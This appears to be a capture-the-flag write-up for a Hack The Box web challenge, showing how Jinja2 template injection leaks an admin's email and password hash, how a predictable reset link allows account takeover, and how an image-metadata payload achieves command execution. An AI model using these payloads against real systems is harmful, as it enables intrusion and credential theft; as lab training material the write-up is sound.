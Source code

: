 # Web Guild - HTB ctf - web 1000

Welcome to the Guild ! But please wait until our Guild Master verify you. Thanks for the wait

## Initial entry point - SSTI

After creating an account and submitting a random image file for the verification, we are able to create a page for our account and edit the bio. The bio uses Jinja2 templating and is vulnerable to SSTI.

I first test SSTI with {{2+2}} as my bio and "4" gets rendered on the page.

After trying multiple different SSTI payloads, RCE attempts, a look at the code lets us see what we are able to run. Since anything within the template {{}} is python, the following payloads enumerate the admin user's info.

```{{User.query.filter_by(username='admin').first()}}```

Returns: ```<User 1>```

```{{User.query.filter_by(username='admin').first().email}}```

Returns: ```3737653936786a79@master.guild```

```{{User.query.filter_by(username='admin').first().password}}```

Returns: ```scrypt:32768:8:1$gQxbef74TPLGNDcL$ae06d7782575f467a2cdd6edc68727454ee08a2f8d033fb8c1d29f735a6d7fdbeac0ee704d7c02372adbe0775e2a98c040520d124ebcb059c3075531a6b6770c```

## Privilege Escalation to Admin account

Use /forgetpassword endpoint. The following code checks to see if email is registered, then creates a link to a reset page. Because we know the admin email we can just recreate the hash on our own and visit the page:

```
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        flash("If email is registered then you will get a link to reset password!", category="success")
        if query:
            # send email the below link
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
            print(reset_url)
            new_query = Validlinks(email=email, validlink=reset_url)
            db.session.add(new_query)
            db.session.commit()
        
        return redirect(url_for("views.home"))

    return render_template("forgetpassword.html", user=current_user)
```

So I simply recreate the hash with python:

```
>>> import hashlib
>>> email = '3737653936786a79@master.guild'
>>> reset_url = str(hashlib.sha256(email.encode()).hexdigest())
>>> print(reset_url)
e407cfec1ae6a98c0635645f2bc14b3fa363c34975bfa75ddd465cbfebe8bdc0
```

Visiting /changepasswd/--hash--:

![resetpass](https://github.com/user-attachments/assets/e32c3f28-bd06-40c8-96bc-d2be680978d6)


After changing the admin account's password, I can view their dashboard to verify the png we uploaded earlier.

![admindash](https://github.com/user-attachments/assets/69dfb594-4811-42d3-8a58-b51904b5c52b)


## Admin Dashboard/Verification

Once authenticated as admin, we are authorized to perform user verification based on the png they send. The code below shows how the site determines verified users:


```
@views.route("/verify",methods=["GET", "POST"])
@login_required
def verify():
    if current_user.username == "admin":
        if request.method == "POST":
            user_id = request.form.get("user_id")
            verf_id = request.form.get("verification_id")
            query = Verification.query.filter_by(id=verf_id).first()
            
            img = Image.open(query.doc)

            exif_table={}

            for k, v in img.getexif().items():
                tag = TAGS.get(k)
                exif_table[tag]=v

            if "Artist" in exif_table.keys():
                sec_code = exif_table["Artist"]
                query.verified = 1
                db.session.commit()
                return render_template_string("Verified! {}".format(sec_code))
            else:
                return render_template_string("Not Verified! :(")
    else:
        flash("Oops", category="error")
        return redirect(url_for("views.home"))
```

The code shows that the site simply checks to see if "Artist" tag is in PNG metadata. If it is, "Verified!" pops up on page along with whatever value "Artist" is.


To get verified, find random jpg and add the "Artist" tag


```
exiftool -Artist=1 picture.jpg
```

Verified accounts:

![verified](https://github.com/user-attachments/assets/c10984c0-1f9f-4e3a-9058-a9af2faef3b7)


Trying to login to those accounts results in a server error, too many redirects?

The final step must be accessing the flag through the "Verified" page that shows up when a user gets verified.

I try another SSTI for the "Artist" tag value to see if that gets rendered improperly on the page. I set Artist to "{{2+2}}" and the results of the verification:

![sstiVerify](https://github.com/user-attachments/assets/93319a4e-28e3-4844-8475-2b2238ff8798)


From here I try RCE:

```exiftool -Artist="{{ config.__class__.__init__.__globals__['os'].popen('ls -la').read() }}" 1.jpeg```

Results:

![rce](https://github.com/user-attachments/assets/1e44eb0f-8c09-4ca2-947a-7b93614e78d0)


To get the flag, I just have to change the command to "cat flag.txt".

# References/Learning

- jinja2 template syntax
	- {% ... %}
	- {{}}
- bug discovered on uber.com with jinja temp injection https://hackerone.com/reports/125980
- scrypt hash format
	- ```scrypt:N:R:P$<salt>$<hashed_password>```
		- N: The CPU/memory cost factor, which controls how expensive the computation is. The larger the value, the harder the hash is to compute.
		- R: The block size (also called the "row size").
		- P: The parallelization factor, which controls how many parallel iterations are used.
		- ```<salt>```: A random string (typically encoded in base64 or hexadecimal) that is used to ensure that the same password generates different hashes each time it's hashed.
		- ```<hashed_password>```: The actual password hash, typically the result of the scrypt function, which combines the password, salt, and other parameters.
- https://flask-login.readthedocs.io/en/latest/
